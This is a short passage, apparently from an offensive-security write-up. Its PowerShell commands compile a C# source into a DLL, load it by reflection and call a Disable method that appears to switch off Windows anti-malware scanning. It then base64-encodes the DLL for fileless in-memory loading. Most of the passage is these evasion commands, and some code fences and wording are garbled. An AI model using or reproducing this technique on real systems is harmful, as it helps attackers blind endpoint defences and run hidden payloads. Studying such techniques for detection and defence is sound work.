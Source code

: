 To load it into Powershell we can use its native (.NET) API:
```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll")) 
[BP.AMS]::Disable()
```

encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it. To encode the dll to 
```
base64 I used this command.
$OriginalCommand = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"));$OriginalCommand

```

Loadoad it into memory
````
[Reflection.Assembly]::Load([Convert]::FromBase64String($OriginalCommand)) | Out-Null
```
